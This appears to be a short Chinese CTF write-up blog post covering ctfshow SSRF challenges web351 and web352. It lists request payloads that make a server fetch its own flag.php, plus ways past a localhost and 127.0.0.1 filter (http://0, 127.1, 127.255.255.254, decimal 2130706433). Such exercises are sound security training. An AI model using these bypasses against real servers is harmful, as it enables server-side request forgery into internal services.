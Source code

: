 ```yaml
---
title: SSRF刷题
date: 2025-01-02 13:10:52
tags:
    - "web"
    - "刷题"
    - ctfshow_ssrf
categories:
    - Yohane-Mashiro
cover: https://avatars.githubusercontent.com/u/78677516?v=4
---
```


### web351
```
url=http://127.0.0.1/flag.php
url=http://localhost/flag.php
```

### web352

这里过滤了localhost和127.0.0.1
```
url=http://0/flag.php #在Linux中，0也会被解析成127.0.0.1
url=http://127.255.255.254/flag.php 
url=http://127.1/flag.php #127.1会被解析成127.0.0.1，也就意味着为零可缺省
url=http://2130706433/flag.php
```
